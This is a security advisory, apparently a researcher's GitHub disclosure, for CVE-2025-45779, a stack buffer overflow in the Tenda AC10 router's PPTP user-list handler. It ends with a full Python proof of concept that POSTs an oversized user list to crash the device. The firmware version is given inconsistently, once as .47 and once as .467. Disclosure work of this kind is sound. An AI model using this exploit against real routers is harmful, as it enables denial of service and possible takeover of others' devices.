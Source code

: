 # CVE-2025-45779 - Tenda AC10 V1.0 Stack Buffer Overflow in `formSetPPTPUserList`

## Summary

A stack-based buffer overflow vulnerability exists in the `formSetPPTPUserList` handler of the Tenda AC10 router (firmware V1.0re_V15.03.06.47). This vulnerability allows remote unauthenticated attackers to execute arbitrary code or cause a denial-of-service (DoS) condition via a specially crafted `list` parameter in an HTTP POST request.

- **CVE ID**: CVE-2025-45779

- **Vendor**: Shenzhen Tenda Technology Co., Ltd.  https://www.tenda.com.cn/

- **Product**: Tenda AC10 V1.0

- **Firmware Version**: V15.03.06.47 

- **Vulnerability Type**: Stack Buffer Overflow

- **Attack Vector**: Remote

- **Impact**: Remote Code Execution, Denial of Service

- **Discoverer**: You Sun (independent security researcher)

  

---

## Affected Firmware

- Firmware version: `V15.03.06.467

- Official firmware download page: https://www.tendacn.com/download/detail-3796.html

<div align="center">
  <img src="./0.PNG" alt="demo" style="border: 2px solid black;" />
</div>


---

## Vulnerability Details

The vulnerability is located in the `formSetPPTPUserList` handler inside the `httpd` binary. When handling a POST request to `/goform/setPptpUserList`, the firmware copies the contents of the `list` parameter into a fixed-size stack buffer using unsafe string manipulation functions (e.g., `strcpy`, `sprintf`, etc.) without proper bounds checking.

By submitting a specially crafted payload that contains a large number of user entries, an attacker can overflow the buffer, leading to memory corruption, device crash, or potential arbitrary code execution with root privileges.
<div align="center">
<img src="./1.PNG" alt="demo" style="border: 2px solid black;" />
<img src="./2.PNG" alt="demo" style="border: 2px solid black;" />
<img src="./3.PNG" alt="demo" style="border: 2px solid black;" />
</div>

---
## Demo

<img src="./poc.gif" alt="demo" style="border: 2px solid black;" />


*The above GIF demonstrates the crash behavior when the vulnerability is triggered with the PoC.*

---

## Proof of Concept (PoC)：CVE-2025-45779-poc-TendaAC10.py

```python
import requests
cookie = {'Cookie':'SESSION_ID=2:1668665284:2','password': 'caw5gk'}
def gen_user(index):
    username = f"user{index:02d}".ljust(64, 'A')  # Each username is filled with 64 bytes
    password = f"pass{index}"
    uid = str(index)
    admin = "1"  # bypass admin check
    return f"{username};{password};{uid};{admin};x;x;x"

def build_payload(user_count=100):
    return "~" + "~".join([gen_user(i) for i in range(user_count)]) + "~"

def send_exploit(target_url):
    payload = build_payload()
    data = {
        "list": payload
    }

    print(f"[+] Sending payload to {target_url} ...")
    r = requests.post(target_url, data=data,cookies=cookie)
    print(f"[+] Response Status: {r.status_code}")
    print(f"[+] Response Body:\n{r.text}")
# router ip
base_url = "http://192.168.5.12"
set_url = f"{base_url}/goform/setPptpUserList"
try:
    send_exploit(set_url)
except Exception as e:
    print(f'An error  occurred: {e}')
```
